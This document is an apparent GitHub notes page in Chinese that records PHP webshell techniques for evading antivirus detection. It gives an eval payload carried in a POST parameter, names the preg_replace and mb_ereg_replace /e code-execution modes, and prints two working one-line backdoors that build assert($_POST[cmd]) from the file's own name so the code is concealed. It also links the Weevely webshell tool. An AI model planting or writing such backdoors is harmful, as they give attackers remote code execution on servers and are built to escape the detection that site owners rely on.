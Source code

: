 ## webshell 免杀记录

### preg_replace 变形

**webshell-1**

利用base64编码

**webshell-2**

还利用了PHP中的可变变量能够执行代码的特点。通过cmd=<title>${@eval($_POST[xxx])}</title>&xxx=phpinfo();这种方式就可以执行任意的代码了。

**Webshell-3**

preg_replace的/e模式用来执行代码，想必大家已经很熟悉了。但是他的兄弟姐妹mb_ereg_replace、mb_eregi_replace大家可能不太熟悉，其实它两的用法和第一个基本一样，支持传入e模式的正则表达式，进而执行任意代码

**Webshell-4**

免杀shell利用类中的静态函数，还用到了变量替换

**no_assert.php**

` <?php ${"function"}=substr(__FILE__,-10,-4);; ${"command"}=$_POST[cmd]; $function($command);` 

这种，得到的$function就是assert，这样就形成了assert($_POST[cmd]);的后门。

**$_POST[cmd].php**

` <?php ${"function"}= substr(__FILE__, -15, -4); ${"config"} = assert; $config($function);`

这个是将$_POST[cmd]放置在文件名中进行隐藏，同样可以达到隐藏的目的。

**Weevely**

加密工具

https://github.com/epinna/weevely3

